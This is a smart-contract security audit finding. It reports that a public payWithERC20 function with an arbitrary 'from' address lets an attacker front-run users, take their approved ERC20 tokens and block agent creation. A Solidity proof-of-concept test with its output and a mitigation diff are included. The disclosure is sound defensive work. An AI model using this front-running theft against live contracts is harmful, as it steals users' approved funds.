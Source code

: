 Stale Hotpink Kitten

High

# Attacker will DoS agent creation, updating and `userTopUp` through `Payment::payWithERC20` function

### Summary

The public function [`Payment::payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) that is inherited in the [`BlueprintCore`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L8C35-L8C42) contract allows an attacker to front-run a legitimate user and deplete their approved token balance due to the arbitrary from in the [`safeTransferFrom`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L31). This prevents the user from successfully executing their intended transaction when there is a fee set to create and update an agent, leading to a denial-of-service (DoS).

### Root Cause

The function [`Payment::payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) is public and allows an arbitrary from address in [`safeTransferFrom`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L31). It is used to pay for fees in the [`BlueprintCore::createAgent`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L464), [`BlueprintCore::updateWorkerDeploymentConfigCommon`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L650) and [`BlueprintCore::userTopUp`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L756) and since it is callable by anyone, an attacker can exploit this by transferring approved tokens from users to themselves before the user can execute their intended transaction which will cause DoS.

### Internal Pre-conditions

1. The admin sets the [`setCreateAgentTokenCost`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Blueprint.sol#L54) to more than 0

### External Pre-conditions

N/A

### Attack Path

1. A user approves the Blueprint contract to spend a certain amount of their tokens.
2. The user attempts to create an agent by calling any of the create agent functions, which now requires a token fee.
3. The attacker front-runs the transaction by calling `payWithERC20`, transferring the approved tokens to themselves before the user's transaction executes.
4. The user's transaction fails due to insufficient balance.

### Impact

Users are unable to create and update agents if there is a create agent fee and unable to call `userTopUp` at any time, resulting in a denial-of-service

### PoC

Add the following test to `BlueprintV5.t.sol` 

```solidity
    function test_feeFrontRunDoS() public {
        address user = makeAddr("user");
        address attacker = makeAddr("attacker");
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        // Setup
        blueprint.addPaymentAddress(address(mockToken));
        uint256 validTokenAmount = 100 * 10 ** 18;
        mockToken.mint(user, validTokenAmount);

        // 1. The create agent token cost is set to > 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        // 2. The user approves the blueprint contract to spend the tokens to create the agent
        vm.prank(user);
        mockToken.approve(address(blueprint), validTokenAmount);

        // 3. The attacker front runs the user, takes their approved tokens and the user no longer has the funds to create the agent
        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), validTokenAmount, user, attacker);

        // 4. The user create agent transaction fails
        vm.expectRevert("ERC20: transfer amount exceeds balance");
        vm.prank(user);
        blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));

        uint256 balanceUser = mockToken.balanceOf(user);
        uint256 balanceAttacker = mockToken.balanceOf(attacker);
        assertEq(balanceUser, 0);
        assertEq(balanceAttacker, validTokenAmount);
        console.log("User balance:", balanceUser);
        console.log("Attacker balance: ", balanceAttacker);
    }
```

```solidity
[PASS] test_feeFrontRunDoS() (gas: 193917)
Logs:
  User balance: 0
  Attacker balance:  100000000000000000000
```

### Mitigation

Make the `Payment::payWithERC20` function internal so that it can't be called by external users

```diff
- function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+ function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {
```